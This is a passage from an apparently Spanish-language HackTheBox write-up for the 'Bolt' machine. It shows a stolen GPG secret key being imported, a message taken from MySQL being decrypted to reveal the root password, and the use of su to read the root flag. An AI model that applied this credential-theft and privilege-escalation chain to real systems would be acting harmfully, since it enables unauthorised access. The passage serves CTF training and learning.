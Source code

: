 ```bash
gpg: /root/.gnupg/trustdb.gpg: se ha creado base de datos de confianza
gpg: clave 1C2741A3DC3B4ABD: clave pública "Eddie Johnson <eddie@bolt.htb>" importada
gpg: clave 1C2741A3DC3B4ABD: clave secreta importada
gpg: Cantidad total procesada: 1
gpg:               importadas: 1
gpg:       claves secretas leídas: 1
gpg:   claves secretas importadas: 1
```

Una vez importada la clave procedemos a desencriptar el mensaje obtenido en mysql

```bash
❯ gpg -d message.crypted
gpg: cifrado con clave de 2048 bits RSA, ID F65CA879A3D77FE4, creada el 2021-02-25
      "Eddie Johnson <eddie@bolt.htb>"
{"password":"Z(2rmxsNW(Z?3=p/9s","description":""}gpg: Firmado el sáb 06 mar 2021 16:33:54 CET
gpg:                usando RSA clave 1C2741A3DC3B4ABD
gpg: Firma correcta de "Eddie Johnson <eddie@bolt.htb>" [desconocido]
gpg: ATENCIÓN: ¡Esta clave no está certificada por una firma de confianza!
gpg:          No hay indicios de que la firma pertenezca al propietario.
Huellas dactilares de la clave primaria: DF42 6BC7 A4A8 AF58 E50E  DA0E 1C27 41A3 DC3B 4ABD
```

La contraseña obtenida es la del usuario `root`. La flag de root la encontramos en el directorio `/root`

```bash
eddie@bolt:/tmp/privesc$ su root
Password: 
root@bolt:/tmp/privesc# whoami
root
root@bolt:/tmp/privesc# cat /root/root.txt 
abfdbf15c93ebc60a***************
```

Hemos completado la máquina **Bolt** de HackTheBox!! Happy Hacking!!

<img src="/assets/HTB/Bolt/pwned.png">